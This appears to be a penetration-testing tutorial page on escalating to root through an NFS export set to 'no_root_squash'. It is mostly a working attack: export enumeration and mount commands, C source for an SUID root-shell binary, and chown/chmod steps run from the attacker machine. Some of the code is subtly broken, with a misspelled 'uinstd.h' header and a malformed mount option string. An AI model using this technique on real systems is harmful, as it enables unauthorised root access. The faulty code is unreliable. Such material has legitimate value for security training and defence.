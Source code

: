 # Introduction

The compromised machine may be configured to allow certain directories to be mounted by other machines. You can enumerate such directories by running the following command on the victim machine:

```bash
cat /etc/exports
```

![[res/Enumerate Mountable Directories.png]]

You can additionally verify this from your attacker machine by running:

```bash
showmount -e <victim IP>
```

![[res/Confirm Mountable Directories.png]]

If there is a mountable directory which is configured as `no_root_squash`, as is the case here, then it can be used for privilege escalation.

We begin by mounting the target directory from the victim to a directory on our machine:
```bash
sudo mount -o rw, vers=3 <victim IP>:/tmp /tmp/root_squash
```

Now, if `no_root_sqaush` is configured for the mountable directory, then the root user on the attacker machine will get mirrored on the victim machine. In essence, any command run as root on the attacker machine, will also be executed as root on the victim! This can allow us to create a malicious binary in the mounted directory and set its SUID bit from the attacker machine. This action will be mirrored by the victim and we will essentially have an SUID binary on the target which is all under our control.

Let's write a simple malicious C executable:

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0); // Set user ID to root
	setgid(0); // Set group ID to root
	system("/bin/bash -i"); // Execute bash now with elevated privileges

	return 0;
}
```

It doesn't matter if you create it on the target or the attacker machine, but you *must* compile it on the target machine in order to avoid library version mismatches:

```bash
gcc -o nfs_exploit nfs_exploit.c
```

![[res/Compile On Target.png]]

Next, you want to change the ownership of the compiled binary to `root` *on the attacker machine*. Afterwards, you want to set the SUID bit on the binary, once again, *from the attacker machine*:

```bash
sudo chown root:root nfs_exploit
sudo chmod +s nfs_exploit
```

![[res/Change Ownership and Permission on the Attacking Machine.png]]

![[res/Ownership and Permissions from the Target's POV.png]]

Finally, execute the malicious binary *on the target*:

![[res/NFS Exploit.png]]